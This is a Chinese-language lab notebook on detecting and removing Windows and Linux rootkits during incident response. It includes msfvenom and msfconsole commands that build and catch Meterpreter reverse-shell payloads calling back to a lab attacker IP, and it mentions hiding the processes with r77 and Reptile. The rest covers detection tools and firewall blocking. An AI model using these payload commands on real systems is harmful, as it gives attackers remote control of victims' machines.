# Rootkit

[toc]

windows Rootkit

模拟后门 生成文件

```
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.182.129 LPORT=5566 -f exe -o http.exe
```



靶机利用工具 查看network



```
msfconsole
use exploit/multi/handler   用于接收 payload 连接
set payload windows/meterpreter/reverse_http   通过 HTTP 反弹连接
set lhost 0.0.0.0   监听所有网卡
set lport 5566  
run
```



运行后门观察网络情况



用火绒剑观察



利用r77工具隐藏进程   用火绒剑无法找到进程




# 应急思路：

1、如果识别到什么项目rookit可以下载工具还原

2、识别不到的情况下采用发现隐藏进程网络等项目

找到对方用的rookit软件，下载相同工具进行卸载





利用WinUnhide  

```
WinUnhide.exe sys    //查询隐藏进程
```





```
WinUnhide-tcp.exe      //查询隐藏网络进程
```



```
netstat -an
```



## 防火墙封堵



设置出站规则





这里封堵的是远程端口，我们要封堵的是本地端口



封堵时候会变端口 



==所以要封堵远程端口==5566



## Linux Rootkit

#### 实验环境

攻击机

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.182.129 LPORT=1111 -f elf >1.elf    //生成文件
```

```
msfconsole
set payload linux/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run
```



靶机给予权限 和 运行



```
ps -ef
```

可以看到进程



```
netstat -anpt   //查看外连情况
```



利用Reptile 隐藏进程



恢复进程



### unhide 查询隐藏进程

```
unhide quick
```



### rkhunter 查询隐藏进(没用)

```
rkhunter -c
```

## clamscan

```
 clamscan -r -i lu'k
```


